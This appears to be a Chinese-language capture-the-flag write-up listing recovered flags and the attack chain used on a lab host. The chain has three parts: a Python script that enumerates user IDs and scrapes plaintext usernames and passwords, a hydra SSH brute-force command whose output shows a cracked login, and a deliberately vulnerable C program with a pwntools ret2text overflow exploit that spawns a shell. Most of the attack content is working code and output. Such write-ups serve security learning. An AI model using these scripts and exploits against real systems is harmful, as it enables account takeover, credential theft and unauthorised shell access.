 
root 2024@.Skills

网卡配置[Ubuntu设置静态IP地址的几种方法\_ubuntu配置静态ip地址-CSDN博客](https://blog.csdn.net/fun_tion/article/details/126750615)

flag1{577baa20-f0a4-487e-a172-e6bc91e4b392}  /index.html

flag2{44a80690-be6f-435e-801e-b9e5ffaf231f}   /404.html

flag3{7972fddb-1eb4-41a7-9d8c-ca757e32dbcc}  /网站用户密码 flag@qq.com

flag4{892fa036-867c-409a-af48-6601229ebc0c}  /home/mike

flag5{075ae034-1d2d-4708-a42d-0c4d1ce61b4c} /flag

flag6{f8fb0360-ff9f-48ba-8d05-76445968bf59}

flag7{32ba92db-cbe6-457f-843c-e476053964ca}

flag{94eda7bc-b4cf-4679-aafd-628a9cfbd563} /systemview
# 写爬虫爬取所有用户密码
```python
import os 
import re
from datetime import datetime
import requests
import urllib3
from colorama import init
init(autoreset = True)

def write1(user_match):
	curr_dir = os.getcwd()
	vuln_file = '/user_' + datetime.now().date().strftime('%Y%m%d')+'.txt'
	f = open(curr_dir + vuln_file,'a+',encoding='utf-8')
	f.write(f"{user_match}"+"\n")
	f.close()
	
def write2(pass_match):
	curr_dir = os.getcwd()
	vuln_file = '/pass_' + datetime.now().date().strftime('%Y%m%d')+'.txt'
	f = open(curr_dir + vuln_file,'a+',encoding='utf-8')
	f.write(f"{pass_match}"+"\n")
	f.close()	

def poc_url(id):
	urllib3.disable_warnings()
	url1 = f"http://192.168.44.133/customer/user.php?id={id}"
	proxy = {
		'http':'http://127.0.0.1:8080',
		'https':'http://127.0.0.1:8080'
	}
	headers = {
		"User-Agent":"Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0",
		"Cookie":"PHPSESSID=dv5jvd9q7d5e6tk0itdfj5f96d"
	}
	res = requests.get(url1,headers=headers,proxies=None,verify=False,timeout=5)
	if res.status_code == 200:
		user_match = re.search(r'<input type="text" id="name" name="name" value="([^"]+)" required>',res.text).group(1).lower().split()[0]
		pass_match = re.search(r'<input type="password" id="oldpassword" name="oldpassword" value="([^"]+)" required>',res.text).group(1)
		
	write1(user_match)
	write2(pass_match)

if __name__ == '__main__':
	for i in range(1,30):
		poc_url(i)




# python写程序遇到了这个问题,vim打开时最后一个字符都是^M，导致输出的文本不可读出内容，只能用文本编辑器打开。file多了个with CR line terminators，转换成unix也不能解决，最后把换行符号换成"\n"才解决！

```

# 爆破SSH
```C
hydra -L user_20240416.txt -P pass_20240416.txt -t 16 ssh://192.168.44.133 

[22][ssh] host: 10.0.2.15   login: mike   password: 6G3UCx6aH6UYvJ6m

```

# 提权题目：
```c
#include <stdio.h>
void init(){
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
}
void vuln(){
    char buf[8];
    puts(">>");
    read(0, buf, 0x100);
}
void backdoor(){
    system("/bin/sh");
}
int main(){
    init();
    vuln();
    return 0;
}

// gcc ret2text1.c -o ret2text1 -fno-stack-protector -no-pie

// gcc ret2text1.c -o ret2text1 -fno-stack-protector -no-pie -m32
```


```python
from pwn import *
#context(os='linux',arch='i386',log_level='debug')
p=process('./ret2text1_32')
elf = ELF('./ret2text1_32')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
bin_sh=0x8048643
bin_sh_chuancan=0x8048585
offset=20
payload=b"a"*offset + p32(bin_sh_chuancan)
p.sendline(payload)
p.interactive()

```
